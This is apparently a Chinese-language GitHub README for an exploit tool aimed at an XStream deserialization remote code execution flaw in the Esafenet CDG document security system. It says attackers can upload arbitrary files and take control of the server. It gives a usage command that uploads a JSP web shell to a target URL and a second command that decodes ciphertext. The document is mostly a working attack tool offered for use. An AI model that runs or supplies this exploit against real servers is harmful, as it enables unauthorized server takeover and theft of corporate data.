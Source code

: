 # CDGXStreamDeserRCE

> 亿赛通电子文档安全管理系统（简称：CDG）是一款电子文档安全防护软件，该系统利用驱动层透明加密技术，通过对电子文档的加密保护，防止内部员工泄密和外部人员非法窃取企业核心重要数据资产。亿赛通电子文档安全管理系统存在XStream反序列化远程代码执行漏洞，攻击者可利用该漏洞对服务器上传任意文件，进而控制服务器权限。


## 使用

本地文件上传利用

```bash
java -jar CDGXStreamDeserRCE.jar -t http://192.168.1.1:8443 -uf shell.jsp -p http://127.0.0.1:8080
```

密文解码

```bash
java -jar CDGXStreamDeserRCE.jar -d FEPCCCLCENHIPOAFPAPDDFCGEAPNMDBMOJPMJAKKNPHOKIKIDCBPHEGKLDGNHCBDEIMODEKMKPFBAIMMNLOJJKMIICLAPJAAFGNGAKFBMPKPJMOIKODEJJMHJCCHKBMFMMFDLOMDPABOJCEAPOFDCPMKGDHFNBBIMCIPAMMIIANFPAJHFAABLLLANNIDAGNKOHONJGFGBKHFDMCLJIMICBHBJEIAAIMACN
```
